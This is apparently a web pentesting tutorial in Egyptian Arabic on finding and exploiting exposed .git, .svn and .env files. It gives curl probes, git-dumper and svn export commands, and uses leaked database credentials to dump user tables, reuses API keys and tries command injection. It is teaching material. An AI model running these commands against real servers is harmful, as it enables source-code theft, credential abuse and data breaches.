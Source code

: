# **1. إيه هي Publicly Accessible .git, .svn, .env Files؟**

## **الشرح العميق:**
الملفات دي هي ملفات بتستخدم في تطوير البرامج أو إدارة المواقع، ولما تكون "Publicly Accessible" يعني إنها مكشوفة على الإنترنت وأي حد يقدر يوصلها بسهولة من المتصفح أو أدوات. ده بيحصل لما المبرمج أو المسؤول يسيبها في مكان عام (زي مجلد الويب الرئيسي) من غير ما يحميها. كل ملف ليه دوره:

- **.git:** مجلد بيحتوي على تاريخ كود الموقع (Git Repository) زي التعديلات والملفات القديمة. لو مكشوف، يقدر المهاجم ينزل الكود كله.
- **.svn:** مجلد بتاع نظام Subversion (SVN) لإدارة الكود. لو متاح، بيكشف الملفات والتاريخ بتاع المشروع.
- **.env:** ملف بيحتوي على متغيرات البيئة زي كلمات سر قاعدة البيانات، مفاتيح API، أو أسرار تانية. لو مكشوف، بيدي المهاجم كل المفاتيح.

## **الأدوات والأوامر العملية:**
### 1. **فحص .git:**
   - جرب في المتصفح: `http://target.com/.git/`.
   - لو ظهر "403" أو "Index of"، يبقى موجود:
     - استخدم أداة زي `git-dumper`:
       - `git-dumper http://target.com/.git/ /local/path`.
       - هينزل الـ Repository كله.

### 2. **فحص .svn:**
   - جرب: `http://target.com/.svn/entries`.
   - لو ظهر محتوى، استخدم `svn export`:
     - `svn export http://target.com/.svn/ /local/path`.

### 3. **فحص .env:**
   - جرب: `http://target.com/.env`.
   - لو ظهر، اقراه:
     - `curl http://target.com/.env` -> لو لقيت `DB_PASSWORD=secret123`، يبقى لقيت كنز.

## **خلاصة بالعامية المصرية:**
"يعني الملفات دي زي دفتر يومياتك اللي فيه كل أسرارك، وسايبه في الشارع! .git زي أرشيف شغلك، .svn زي السجل بتاعك، و.env زي كلمة سر خزنة فلوسك."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
لما الملفات دي تكون مكشوفة، بتفتح الباب للمهاجم يعمل حاجات خطيرة:
- **من .git:** يقدر ينزل كود الموقع كله، يلاقي ثغرات، أو يعرف إزاي السيستم شغال.
- **من .svn:** نفس الفكرة، يشوف الملفات القديمة أو التعديلات ويستغل أي ضعف.
- **من .env:** ياخد كلمات سر قاعدة البيانات، مفاتيح API، أو أي حاجة حساسة، ويستخدمها عشان يدخل أو يصعد صلاحياته.

في النهاية، الملفات دي بتكون زي خريطة كنز للمهاجم، بتديله كل المعلومات اللي يحتاجها عشان يخترق النظام.

## **الأدوات والأوامر العملية:**
### 1. **استغلال .git:**
   - بعد ما تنزل الـ Repository:
     - `cd /local/path && git log` -> تشوف التعديلات.
     - ابحث عن ملفات حساسة زي `config.php` في الـ Commits:
       - `git show <commit_id>`.

### 2. **استغلال .svn:**
   - لو نزلت الملفات:
     - `cat /local/path/.svn/entries` -> ابحث عن بيانات زي كلمات سر.
   - أو: `svn checkout http://target.com/.svn/` -> تجيب الكود.

### 3. **استغلال .env:**
   - لو لقيت: `DB_USERNAME=admin DB_PASSWORD=secret123`:
     - `mysql -u admin -psecret123 -h target.com`.
     - `SHOW DATABASES;` -> `USE db_name;` -> `SELECT * FROM users;`.

## **خلاصة بالعامية المصرية:**
"الملفات دي لما تبقى مكشوفة، زي ما تكون سايب كل أسرارك على القهوة! المهاجم يلاقيها، ياخد الكود، يعرف كل حاجة، ويخش يلعب على كيفه في البيت بتاعك."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الملفات المكشوفة دي عشان تجمع معلومات أو تاخد وصول أعلى (تصعيد صلاحيات).
- **مثال واقعي:** لو لقيت .env فيه كلمة سر قاعدة بيانات، تدخل عليها وتسرق بيانات المستخدمين.

## **خلاصة بالعامية المصرية:**
"لما تلاقي الحاجات دي مفتوحة، زي ما تكون لقيت كنز في الشارع! بتاخده، تفتح بيه الأبواب، وتبقى الكبير بتاع الموقع."

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: البحث عن الملفات المكشوفة**
- جرب في المتصفح أو بـ curl:
  - `curl http://192.168.1.10/.git/HEAD` -> لو رجع `ref: refs/heads/master`، يبقى موجود.
  - `curl http://192.168.1.10/.svn/entries` -> لو ظهر، يبقى SVN مكشوف.
  - `curl http://192.168.1.10/.env` -> لو ظهر متغيرات، اقراه.

## **الخطوة 3: استغلال .git**
- لو لقيت .git مكشوف:
  - `git-dumper http://192.168.1.10/.git/ /tmp/git_dump`.
  - `cd /tmp/git_dump && git log` -> ابحث عن ملفات زي `config.php`.
  - `git show <commit_id>` -> لو لقيت `$db_pass = "secret123";`.

## **الخطوة 4: استغلال .svn**
- لو لقيت .svn:
  - `svn export http://192.168.1.10/.svn/ /tmp/svn_dump`.
  - `cat /tmp/svn_dump/.svn/entries` -> ابحث عن بيانات حساسة.

## **الخطوة 5: استغلال .env**
- لو لقيت .env:
  - `curl http://192.168.1.10/.env` -> افترض رجع:
    - `DB_USERNAME=admin DB_PASSWORD=pass123`.
  - استخدمها:
    - `mysql -u admin -ppass123 -h 192.168.1.10`.
    - `SELECT * FROM users;` -> تسريب بيانات.

## **الخطوة 6: تصعيد الصلاحيات**
- لو لقيت API Key في .env (زي `API_KEY=xyz123`):
  - جرب تستخدمه في طلبات API:
    - `curl -H "Authorization: Bearer xyz123" http://192.168.1.10/api/admin`.
- لو لقيت كود في .git ينفع لـ Command Injection:
  - ارفع shell بناءً على الثغرة:
    - `http://192.168.1.10/vuln.php?cmd=id`.

## **الخطوة 7: توثيق**
- سجل كل الملفات المكشوفة والبيانات اللي لقيتها.
- قدم تقرير يوضح إزاي الملفات دي ممكن تدمر النظام.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت كشكول أسرار الموقع في الشارع، فتحته، خدت كل حاجة، وطلعت الكبير بتاع الحتة! الملفات دي لما تبقى مكشوفة، تبقى طريقك للنصر."

---

# **الخلاصة النهائية:**
Publicly Accessible .git, .svn, .env Files هي ثغرات كبيرة لأنها بتكشف كود الموقع، تاريخه، وأسراره زي كلمات السر. في الـ Pentesting، دور عليها بـ curl أو أدوات زي git-dumper، استغلها عشان تسرق بيانات أو تاخد shell، ووري العميل إن نظامه زي كتاب مفتوح! بالطريقة دي، تقدر تبقى البطل بتاع اللعبة بسهولة!


Matrial of subjects
Web pentesting